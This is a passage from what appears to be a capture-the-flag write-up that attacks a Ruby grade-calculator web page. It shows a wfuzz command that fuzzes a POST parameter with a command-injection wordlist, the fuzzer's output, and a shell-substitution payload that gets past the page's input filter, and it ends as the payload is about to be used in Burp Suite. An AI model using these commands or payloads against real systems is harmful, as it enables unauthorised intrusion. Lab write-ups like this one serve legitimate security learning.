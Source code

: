 
This is a filter.

## 3. Exploitation

### 3.1 Bypassing Filter

With a little fuzzing of the first category parameter, we can get some payloads capable of bypass the  filter. We can use `wfuzz` .

```
$ wfuzz -v -c -t 30 -u http://10.10.11.253/weighted-grade-calc -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt -X POST -d 'category1=FUZZ&grade1=10&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' --hs "Malicious input blocked"      
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.253/weighted-grade-calc
Total requests: 8262

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload                                                                                                                      
====================================================================================================================================================

000003307:   0.198s       200        146 L      461 W    5356 Ch     WEBrick/1.7.0 (Ruby/3.0.2/2021                                    "'print(`echo%20AHOHOK%0aecho%20$((14%2B28))%0aecho%20AHOHOK%0aecho%20AHOHOK`)%3BAHOHOK"  
```

Now we can use the payload ``'print(`echo%20AHOHOK%0aecho%20$((14%2B28))%0aecho%20AHOHOK%0aecho%20AHOHOK`)%3BAHOHOK`` with burpsuite to bypass the filter:
